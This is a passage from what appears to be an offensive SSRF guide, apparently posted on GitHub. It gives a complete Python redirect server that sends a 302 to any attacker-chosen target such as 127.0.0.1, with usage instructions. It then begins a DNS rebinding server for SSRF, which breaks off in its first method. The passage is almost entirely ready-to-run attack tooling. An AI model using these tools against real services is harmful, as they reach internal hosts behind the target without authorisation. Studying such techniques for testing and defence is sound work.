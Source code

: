 #### Custom Redirect Server
```python
#!/usr/bin/env python3
"""
SSRF Redirect Server

Author: LakshmiKanthanK(letchupkt)
Portfolio: https://letchupkt.vgrow.tech
"""

from http.server import HTTPServer, BaseHTTPRequestHandler
from urllib.parse import urlparse, parse_qs

class RedirectHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        parsed_path = urlparse(self.path)
        query_params = parse_qs(parsed_path.query)
        
        # Get target URL from parameter
        target = query_params.get('target', ['http://127.0.0.1'])[0]
        
        # Send redirect response
        self.send_response(302)
        self.send_header('Location', target)
        self.end_headers()
        
        print(f"[+] Redirecting to: {target}")

if __name__ == '__main__':
    server = HTTPServer(('0.0.0.0', 8080), RedirectHandler)
    print("[+] Redirect server running on port 8080")
    print("[+] Usage: http://your-server:8080/?target=http://127.0.0.1")
    server.serve_forever()
```

### 3. 🎭 DNS Rebinding Attacks

#### DNS Rebinding Setup
```python
#!/usr/bin/env python3
"""
DNS Rebinding Server for SSRF

Author: LakshmiKanthanK(letchupkt)
Portfolio: https://letchupkt.vgrow.tech
"""

import socket
import struct
import threading
import time

class DNSRebindingServer:
    def __init__(self, external_ip, internal_ip, port=53):
        self.external_ip = external_ip
        self.internal_ip = internal_ip
        self.port = port
        self.request_count = 0
    
    def handle_dns_request(self, data, addr, sock):
        """Handle DNS request and perform rebinding"""
        self.request_count += 1
        
        # First request: return external IP
```
